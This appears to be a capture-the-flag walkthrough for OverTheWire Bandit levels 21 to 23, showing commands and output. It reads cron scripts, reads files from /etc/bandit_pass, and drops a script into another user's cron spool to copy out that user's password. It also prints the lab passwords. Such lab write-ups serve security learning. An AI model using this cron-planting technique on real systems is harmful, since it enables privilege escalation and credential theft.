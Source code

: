   
 
## Bandit21
 
  
ssh bandit21@bandit.labs.overthewire.org -p 2220  
  
bandit21@bandit:/etc/cron.d$ cat cronjob\_bandit22  
@reboot bandit22 /usr/bin/cronjob\_bandit22.sh &&gt; /dev/null  
\* \* \* \* \* bandit22 /usr/bin/cronjob\_bandit22.sh &&gt; /dev/null  
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob\_bandit22.sh  
\#!/bin/bash  
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
cat /etc/bandit\_pass/bandit22 &gt; /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI  
  
 
## Bandit22
 
  
ssh bandit22@bandit.labs.overthewire.org -p 2220  
  
bandit22@bandit:/usr/bin$ cat /usr/bin/cronjob\_bandit23.sh  
\#!/bin/bash  
  
myname=$\(whoami\)  
mytarget=$\(echo I am user $myname \| md5sum \| cut -d ' ' -f 1\)  
  
echo "Copying passwordfile /etc/bandit\_pass/$myname to /tmp/$mytarget"  
  
cat /etc/bandit\_pass/$myname &gt; /tmp/$mytarget  
bandit22@bandit:/usr/bin$ echo I am user bandit23 \| md5sum \| cut -d ' ' -f 1  
8ca319486bfbbc3663ea0fbe81326349  
bandit22@bandit:/usr/bin$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349  
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n  
  
 
## Bandit23
 
  
ssh bandit23@bandit.labs.overthewire.org -p 2220  
  
criar script /tmp/pvieira24/pv.sh  
  
\*\*\*\*\*\*\*  
\#!/bin/bash  
  
cat /etc/bandit\_pass/bandit24 &gt; /tmp/pvieira24/bandit24.pass  
\*\*\*\*  
  
bandit23@bandit:/tmp/pvieira24$ chmod +x pv.sh  
  
bandit23@bandit:/tmp/pvieira24$ chmod 777 .  
  
bandit23@bandit:/tmp/pvieira24$ cp pv.sh /var/spool/bandit24  
  
bandit23@bandit:/tmp/pvieira24$ ls  
bandit24.pass pv.sh  
bandit23@bandit:/tmp/pvieira24$ cat bandit24.pass  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  